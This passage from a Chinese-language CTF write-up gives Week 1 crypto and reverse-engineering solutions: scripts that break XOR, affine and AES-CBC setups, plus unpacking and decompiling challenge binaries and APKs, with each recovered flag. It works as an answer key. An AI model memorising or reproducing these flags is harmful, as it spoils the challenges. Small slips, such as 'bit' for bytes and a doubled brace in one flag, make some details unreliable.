partial_key = [ciphertext[i] ^ known_plaintext[i] for i in range(5)]
print("Partial key:", bytes(partial_key))
# Partial key: b'\x8f\x8f\x8f\x8f\x8f'
```

可以得出 key 为 `\x8f` ，通过遍历异或整串密文就可以得到 flag，脚本如下

```python
ciphertext_hex = "e9e3eee8f4f7bffdd0bebad0fcf6e2e2bcfbfdf6d0eee1ebd0eabbf5f6aeaeaeaeaeaef2"
ciphertext = bytes.fromhex(ciphertext_hex)
key = int.from_bytes(b'\x8f', 'big')
print(bytes([ciphertext[i] ^ key for i in range(36)]))
```

### \[Week 1]Affine

```python
from flag import flag, key

modulus = 256

ciphertext = []

for f in flag:
    ciphertext.append((key[0]*f + key[1]) % modulus)

print(bytes(ciphertext).hex())

# dd4388ee428bdddd5865cc66aa5887ffcca966109c66edcca920667a88312064
```

通过将明文的每个字符与 `key[0]` 相乘再加上 `key[1]` 模 256即可得到密文，因此把过程倒过来即可得到 flag。

加密过程: $(key\[0] \* f + key\[1])\ mod\ 256$

因为进行模运算，逆过来需要先求出逆元，通过求出逆元就可以逆推得出 flag。

解密过程: $key\[0]^{-1} \* (c-key\[1])\ mod\ 256 $

根据已知明文 `flag{` 爆破出逆元后通过解出的 `key[0]` 和 `key[1]` 代入求解即可，脚本如下

```python
def mod_inverse(a, m):
    for x in range(1, m):
        if (a * x) % m == 1:
            return x
    return None

ciphertext = bytes.fromhex("dd4388ee428bdddd5865cc66aa5887ffcca966109c66edcca920667a88312064")

known_text = b"flag{"

for k0 in range(256):
    for k1 in range(256):
        inv_k0 = mod_inverse(k0, 256)
        if not inv_k0:
            continue
        decrypted = [(inv_k0 * (c - k1)) % 256 for c in ciphertext[:len(known_text)]]
        if bytes(decrypted) == known_text:
            print(bytes([(inv_k0 * (c - k1)) % 256 for c in ciphertext[:len(ciphertext)]]))
            break
            
# flag{4ff1ne_c1pher_i5_very_3azy}
```

### \[Week 1]babyaes

```python
from Crypto.Cipher import AES
import os
from flag import flag
from Crypto.Util.number import *


def pad(data):
    return data + b"".join([b'\x00' for _ in range(0, 16 - len(data))])


def main():
    flag_ = pad(flag)
    key = os.urandom(16) * 2
    iv = os.urandom(16)
    print(bytes_to_long(key) ^ bytes_to_long(iv) ^ 1)
    aes = AES.new(key, AES.MODE_CBC, iv)
    enc_flag = aes.encrypt(flag_)
    print(enc_flag)


if __name__ == "__main__":
    main()
# 3657491768215750635844958060963805125333761387746954618540958489914964573229
# b'>]\xc1\xe5\x82/\x02\x7ft\xf1B\x8d\n\xc1\x95i'
```

由于 key 是由一段随机 16bit 的值复制两次拼接出来的值，并且给出了 $key\ \oplus\ iv\ \oplus\ 1$ 的值，因此可以先异或 1 得到 $key\ \oplus\ iv$ 的值。

由于此时的 key 为 32bit，而 iv 为 16bit，因此解出来的值得前半段就是 key 值，再通过将前半段异或后半段即可得到 iv 值，脚本如下

```python
xor_result = 3657491768215750635844958060963805125333761387746954618540958489914964573229
xor_result_bytes = long_to_bytes(xor_result ^ 1)
key = xor_result_bytes[:16] * 2
print(f'key = {key}')
iv = long_to_bytes(bytes_to_long(xor_result_bytes[:16]) ^ bytes_to_long(xor_result_bytes[16:]))
print(f'iv = {iv}')
# key = b'\x08\x16\x11%\xa0\xa6\xc5\xcb^\x02\x99NF`\xea,\x08\x16\x11%\xa0\xa6\xc5\xcb^\x02\x99NF`\xea,'
# iv = b'\xe3Z\x19Ga>\x07\xcc\xd1\xa1X\x01c\x11\x16\x00'
```

将解出的 key 和 iv 丢进 AES 中进行解密即可得到 flag，完整脚本如下

```python
from Crypto.Cipher import AES
from Crypto.Util.number import *

xor_result = 3657491768215750635844958060963805125333761387746954618540958489914964573229
enc_flag = b'>]\xc1\xe5\x82/\x02\x7ft\xf1B\x8d\n\xc1\x95i'

xor_result_bytes = long_to_bytes(xor_result ^ 1)
print(xor_result_bytes)

key = xor_result_bytes[:16] * 2
print(f'key = {key}')

iv = long_to_bytes(bytes_to_long(xor_result_bytes[:16]) ^ bytes_to_long(xor_result_bytes[16:]))
print(f'iv = {iv}')

aes = AES.new(key, AES.MODE_CBC, iv)
dec_flag = aes.decrypt(enc_flag)

print(dec_flag)
# b'firsT_cry_Aes\x00\x00\x00'
```

## Reverse

### \[Week 1]easy\_RE

用 ida64 打开可以得到前半部分 flag ，如下图

<figure><figcaption></figcaption></figure>

通过按 F5 反编译可以得到后半部分 flag ，如下图

<figure><figcaption></figcaption></figure>

故 flag 如下

```
flag{we1c0me_to_rev3rse!!}}
```

### \[Week 1]咳

题目描述中存在壳，用查壳软件看看，如下图

<figure><figcaption></figcaption></figure>

需要使用 upx 去壳，如下

```bash
$ upx -d "KE.exe"
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96w       Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
    133760 <-     68224   51.00%    win64/pe     KE.exe

Unpacked 1 file.
```

去壳完成后用 ida64 打开，通过反编译可以得到以下内容

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 i; // r10
  char *v4; // kr00_8
  char Str1[96]; // [rsp+20h] [rbp-88h] BYREF
  int v7; // [rsp+80h] [rbp-28h]

  _main();
  memset(Str1, 0, sizeof(Str1));
  v7 = 0;
  Hello();
  scanf("%s", Str1);
  for ( i = 0i64; ; ++i )
  {
    v4 = &Str1[strlen(Str1)];
    if ( i >= v4 - Str1 )
      break;
    ++Str1[i];
  }
  if ( !strncmp(Str1, enc, v4 - Str1) )
    puts("WOW!!");
  else
    puts("I believe you can do it!");
  system("pause");
  return 0;
}
```

并且可以找到

```
enc = "gmbh|D1ohsbuv2bu21ot1oQb332ohUifG2stuQ[HBMBYZ2fwf2~"
```

通过分析可得该函数将密文是由明文的每个字符转ascii值后加一得到的，要得到明文则将每个字符的ascii值减一即可。

```python
str = "gmbh|D1ohsbuv2bu21ot1oQb332ohUifG2stuQ[HBMBYZ2fwf2~"
for s in str:
    print(chr(ord(s) - 1), end='')

# flag{C0ngratu1at10ns0nPa221ngTheF1rstPZGALAXY1eve1}
```

### \[Week 1]Segments

百度 `IDA的Segments窗口要怎么打开呢` ，可以得到结果 `Shift+F7` ，将 Segments 窗口中的 name 拼凑起来就是 flag。

```
flag{You_ar3_g0od_at_f1nding_ELF_segments_name}
```

### \[Week 1]ELF

用 ida64 打开，通过反编译可以得到以下内容

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // edx
  char *s1; // [rsp+0h] [rbp-20h]
  char *v6; // [rsp+8h] [rbp-18h]
  char *s; // [rsp+10h] [rbp-10h]

  s = (char *)malloc(0x64uLL);
  printf("Input flag: ");
  fgets(s, 100, stdin);
  s[strcspn(s, "\n")] = 0;
  v6 = (char *)encode(s);
  v3 = strlen(v6);
  s1 = (char *)base64_encode(v6, v3);
  if ( !strcmp(s1, "VlxRV2t0II8kX2WPJ15fZ49nWFEnj3V8do8hYy9t") )
    puts("Correct");
  else
    puts("Wrong");
  free(v6);
  free(s1);
  free(s);
  return 0;
}

_BYTE *__fastcall encode(const char *a1)
{
  size_t v1; // rax
  int v2; // eax
  _BYTE *v4; // [rsp+20h] [rbp-20h]
  int i; // [rsp+28h] [rbp-18h]
  int v6; // [rsp+2Ch] [rbp-14h]

  v1 = strlen(a1);
  v4 = malloc(2 * v1 + 1);
  v6 = 0;
  for ( i = 0; i < strlen(a1); ++i )
  {
    v2 = v6++;
    v4[v2] = (a1[i] ^ 0x20) + 16;
  }
  v4[v6] = 0;
  return v4;
}
```

通过分析可知密文是由明文的每个字符与 0x20 进行异或后加 16 并进行 base64 编码得到的，要得到明文则先进行 base64 解码后将所得的每个位减去 16 再和 0x20 异或即可，脚本如下。

```python
import base64

encoded_str = "VlxRV2t0II8kX2WPJ15fZ49nWFEnj3V8do8hYy9t"
decoded_bytes = base64.b64decode(encoded_str)
print(decoded_bytes)
for s in decoded_bytes:
    print(chr((s - 16) ^ 0x20), end="")
    
# flag{D0_4ou_7now_wha7_ELF_1s?}
```

### \[Week 1]Endian

用 ida64 打开，通过反编译可以得到以下内容

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+4h] [rbp-3Ch]
  char *v5; // [rsp+8h] [rbp-38h]
  char v6[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  puts("please input your flag");
  __isoc99_scanf("%s", v6);
  v5 = v6;
  for ( i = 0; i <= 4; ++i )
  {
    if ( *(_DWORD *)v5 != (array[i] ^ 0x12345678) )
    {
      printf("wrong!");
      exit(0);
    }
    v5 += 4;
  }
  printf("you are right");
  return 0;
}
```

并且 array 数组内容如下

```
array = [0x75553A1E, 0x7B583A03, 0x4D58220C, 0x7B50383D, 0x736B3819]
```

通过分析可知密文是通过将明文每四个为一组和 0x12345678 进行异或后得到的，但由于是低位存储，所以需要将每一组逆向过来的值进行反向即可得到 flag，脚本如下

```python
from Crypto.Util.number import long_to_bytes

array_data = [0x75553A1E, 0x7B583A03, 0x4D58220C, 0x7B50383D, 0x736B3819]
for data in array_data:
    print(bytes(reversed(long_to_bytes(data ^ 0x12345678))).decode(), end='')
    
# flag{llittl_Endian_a}
```

### \[Week 1]AndroXor

> https://apktool.org/
>
> https://github.com/skylot/jadx

可以在上述引用中下载 apktool ，下载后使用 apktool 进行逆向

```bash
$ apktool d AndroXor.apk
```

逆向后使用 jadx 打开进行 Java 反编译，在 `com/chick.androxor/MainActivity` 中存在以下内容

```java
    public String Xor(String str, String str2) {
        char[] cArr = {14, '\r', 17, 23, 2, 'K', 'I', '7', ' ', 30, 20, 'I', '\n', 2, '\f', '>', '(', '@', 11, '\'', 'K', 'Y', 25, 'A', '\r'};
        char[] cArr2 = new char[str.length()];
        String str3 = str.length() != 25 ? "wrong!!!" : "you win!!!";
        for (int i = 0; i < str.length(); i++) {
            char charAt = (char) (str.charAt(i) ^ str2.charAt(i % str2.length()));
            cArr2[i] = charAt;
            if (cArr[i] != charAt) {
                return "wrong!!!";
            }
        }
        return str3;
    }

	@Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        ActivityMainBinding inflate = ActivityMainBinding.inflate(getLayoutInflater());
        this.binding = inflate;
        setContentView(inflate.getRoot());
        final EditText editText = (EditText) findViewById(R.id.password);
        ((Button) findViewById(R.id.button)).setOnClickListener(new View.OnClickListener() { // from class: com.chick.androxor.MainActivity.1
            @Override // android.view.View.OnClickListener
            public void onClick(View view) {
                String obj = editText.getText().toString();
                MainActivity mainActivity = MainActivity.this;
                Toast.makeText(mainActivity, mainActivity.Xor(obj, "happyx3"), 1).show();
                Log.d("输入", editText.getText().toString());
            }
        });
    }
```

通过分析可得明文长度为 25，并且代码将循环遍历明文每一个字符，并使用每个字符与第二个参数字符串(happyx3)的对应位置字符进行异或运算，将得到的新字符添加到 cArr2 中，并且还会将cArr2中的字符与cArr中的对应位置字符进行比较。

因此要获得明文需要对应位置逐个异或运算推回来即可，先将 cArr 数字中的其他值都转化为 ascii 值形态，再进行异或运算，将运算结果转回字符即可，脚本如下

```python
cArr = [14, '\r', 17, 23, 2, 'K', 'I', '7', ' ', 30, 20, 'I', '\n', 2, '\f', '>', '(', '@', 11, '\'', 'K', 'Y', 25, 'A', '\r']
str = ""
str2 = "happyx3"

def convert_to_ord(lst):
    for i in range(len(lst)):
        if not isinstance(lst[i], int):
            lst[i] = ord(lst[i])
    return lst

cArr = convert_to_ord(cArr)

for i in range(25):
    str += chr(cArr[i] ^ ord(str2[i % len(str2)]))

print(str)

# flag{3z_And0r1d_X0r_x1x1}
```

### \[Week 1]EzPE

下载附件后用查壳工具查发现无法查出来，用 010 打开和其他 exe 文件对比发现缺失了文件头部分，需将文件头部分进行修复。

<figure><figcaption></figcaption></figure>

用 ida64 打开，通过反编译可以得到以下内容

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+2Ch] [rbp-4h]

  _main(argc, argv, envp);
  puts(&draw);
  puts("Please enter your flag!\n");
  scanf("%s", input);
  for ( i = 0; i < strlen(input) - 1; ++i )
    input[i] ^= i ^ input[i + 1];
  if ( !strcmp(input, data) )
    puts("You Win!");
  else
    puts("You lose!");
  system("pause");
  return 0;
}
```

并且 data 数组内容如下

```python
array_data = [
  0x0A, 0x0C, 0x04, 0x1F, 0x26, 0x6C, 0x43, 0x2D, 0x3C, 0x0C,
  0x54, 0x4C, 0x24, 0x25, 0x11, 0x06, 0x05, 0x3A, 0x7C, 0x51,
  0x38, 0x1A, 0x03, 0x0D, 0x01, 0x36, 0x1F, 0x12, 0x26, 0x04,
  0x68, 0x5D, 0x3F, 0x2D, 0x37, 0x2A, 0x7D
]
```

通过分析可得密文由将明文的每个字符与其下一个字符以及当前 index 值进行异或运算，并将结果赋值给当前字符，因此要逆向回来只需要倒转反过来即可，脚本如下

```python
array_data = [
  0x0A, 0x0C, 0x04, 0x1F, 0x26, 0x6C, 0x43, 0x2D, 0x3C, 0x0C,
  0x54, 0x4C, 0x24, 0x25, 0x11, 0x06, 0x05, 0x3A, 0x7C, 0x51,
  0x38, 0x1A, 0x03, 0x0D, 0x01, 0x36, 0x1F, 0x12, 0x26, 0x04,
  0x68, 0x5D, 0x3F, 0x2D, 0x37, 0x2A, 0x7D
]
print(len(array_data))
for i in range(len(array_data) - 2, 0, -1):
    array_data[i] ^= i ^ array_data[i + 1]
print(''.join(chr(data) for data in array_data))

# flag{Y0u_kn0w_what_1s_PE_File_F0rmat}
```

### \[Week 1]lazy\_activtiy

> https://github.com/liaojack8/AndroidKiller

使用 AndroidKiller 打开后搜索 flag 即可得到 flag。

<figure><figcaption></figcaption></figure>

```
flag{Act1v1ty_!s_so00oo0o_Impor#an#}
```

###
